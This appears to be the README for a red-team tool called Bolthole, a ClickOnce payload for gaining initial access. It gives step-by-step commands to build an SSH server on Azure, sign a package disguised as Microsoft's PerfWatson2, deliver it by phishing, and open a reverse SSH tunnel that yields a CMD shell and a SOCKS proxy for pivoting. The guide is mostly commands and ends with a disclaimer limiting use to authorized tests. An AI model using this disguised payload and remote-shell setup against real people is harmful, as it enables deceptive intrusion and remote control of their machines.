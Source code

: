# Bolthole

A proof-of-concept ClickOnce payload for Red Teams to establish initial access in authorized penetration tests.

## Overview

Bolthole provides operators with:
- Reverse SSH tunnel into the target environment
- CMD shell access as the executing user (no password required)
- SOCKS proxy functionality for pivoting

## Setup Instructions

### 1. Azure VM Configuration

1. Create an Azure VM (Ubuntu recommended)
2. Configure the sshd_config file:
   ```bash
   sudo nano /etc/ssh/sshd_config
   ```
   
   Add/modify these lines:
   ```
   Port 22
   Port 80
   Port 443
   Port 31337
   AllowTcpForwarding yes
   GatewayPorts yes
   PermitRootLogin no
   PasswordAuthentication no
   PubkeyAuthentication yes
   ```

3. Restart SSH service:
   ```bash
   sudo systemctl restart sshd
   ```
4. Create a user with nologin: sudo useradd -m -s /usr/sbin/nologin clientnameuser
5. Create an SSH keypair for the target to connect back: ssh-keygen -t rsa -b 4096 -f clientnameuser_key -N ""
6. Add pub key to authorized_keys: nano /home/clientnameuser/.ssh/authorized_keys
7. Change ownership: sudo chown -R clientnameuser:clientnameuser /home/clientnameuser/
8. Copy the contents of clientnameuser_key private key to WebDeploy\Install\BoltFiles\clientnameuser_key
9. Modify the Azure VM firewall in the networking settings of the VM to allow the ports you want inbound SSH for.

### 2. Build and Sign the ClickOnce Payload

1. Update connection settings in the project to use your Azure VM's FQDN
2. Change any ports you desire
3. Modify the authorized_keys file to include your pub key 'ssh-keygen -t ecdsa -N ""'
4. Copy PerfWatson2.exe "c:\program files\Microsoft Visual Studio\2022\Community\Common7\IDE\PerfWatson2.exe" to the "WebDeploy\Install" folder.
5. Open Tools -> Command Line -> Developer PowerShell
6. From the Bolthole directory, make the pvk: makecert.exe -sv ClickOnce.pvk -n "cn=ClickOnce" ClickOnce.cer -b 01/01/2025 -e 01/01/2026 -r
7. Convert to pfx: pvk2pfx.exe -pvk ClickOnce.pvk -spc ClickOnce.cer -pfx ClickOnce.pfx
8. Create Installer manifest from the WebDeploy\Install directory: mage.exe -New Application -Processor amd64 -ToFile .\Installer.exe.manifest -Name PerfWatson2 -Version 17.0.33711.286 -TrustLevel FullTrust -FromDirectory .
9. Sign the manifest: mage.exe -Sign .\Installer.exe.manifest -CertFile ..\..\ClickOnce.pfx
10. Create the application: mage.exe -New Deployment -Processor amd64 -Install false -Publisher "Digital Signatures" -AppManifest Installer.exe.manifest -ToFile Installer.application -ProviderUrl https://<insertyourapplication>.azurewebsites.net/Install/Installer.application
11. Sign the application: mage.exe -Sign .\Installer.application -CertFile ..\..\ClickOnce.pfx

### 3. Deployment

1. Host the ClickOnce package on a web server
2. Sign in using Azure CLI: az login --use-device-code
3. Fron the WebDeploy directory: az webapp up --location eastus2 --resource-group <INSERT> --name <INSERT> --html --sku F1
2. Provide the link to the target (via phishing or other authorized methods)
3. When executed, it will establish the reverse SSH tunnel

### 4. Usage

1. Connect to your Azure VM
2. Access the target machine through the established tunnel (default port 31332):
   ```bash
   ssh -p [TUNNEL_PORT] [USERNAME]@localhost
   ```
3. For SOCKS proxy:
   ```bash
   ssh -D 1080 -p [TUNNEL_PORT] [USERNAME]@localhost
   ```

## Legal Disclaimer

This tool is provided for authorized Red Team operations only. Usage against systems without explicit permission is illegal.
